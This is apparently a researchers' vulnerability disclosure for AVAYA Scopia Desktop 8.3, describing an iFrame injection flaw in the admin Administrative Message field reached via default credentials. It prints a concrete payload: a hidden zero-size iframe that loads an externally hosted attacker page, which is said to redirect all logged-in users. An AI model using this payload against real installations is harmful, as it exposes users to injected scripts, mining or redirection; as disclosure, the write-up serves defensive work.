





## AVAYA Scopia Desktop XFS Vulnerability Description
 - Author: YU-HSIANG HUANG, YUNG-HAO TSENG, Eddie TC CHANG
 - Contact: huang.yuhsiang.phone@gmail.com; 0xuhaw@gmail.com; eddietcchang@gmail.com
---
 ### Testing Target
 - Product：AVAYA Scopia® Desktop
 - Version & Last updated：8.3.908.002 (Jul 21, 2017)
 - Official Website：https://support.avaya.com/products/P1421/scopia-desktop/8.3
 - Affect：All Version <= 8.3.0908.002
 - Recommend：No longer fixed [[1]](https://downloads.avaya.com/css/P8/documents/101047076)

 ### Abstract
We discovered that Scopia® Desktop administrator pages the `Administrative Message Field` has iFrame Injection (XFS), attackers can insert malicious js, mining js and others and affect all logged in users.

 ### Concept
 1. First, we check SCOPIA DESKTOP VERSION 8.3.908.002, which is the latest/last version release in July of 2017.

 2. Now we go to Scopia Desktop Administrator pages and using default account and password. The default account password can be easily obtained from the Avaya Support document.

 3. In Administrative Message field we can insert iFrame Injection Payload, this payload will call external HTML and XSS Page
 - iFrame Injection Payload:
	- `<iframe src="https://biyesslmpfoionl1cdm16g- on.drv.tw/www/xxx.html" width="0px" height="0px"></iframe>`

4. The following is the simple payload source code of the external page of the call. The payload must be placed on an outside website that can be any browse
- Such as, we use Google Drive with DriveToWeb services to build a website that can be any browse.

4. Now return to the Front-End and login any low-privilege user

5.Wait a few seconds, the user browse website will be redirected to the hacker's website.
- In this example we redirect to YouTube and we have confirmed that early Firefox 63.0.1, Edge 38.14393.0.0, Safari 12.0 and IE 11 will be affected.

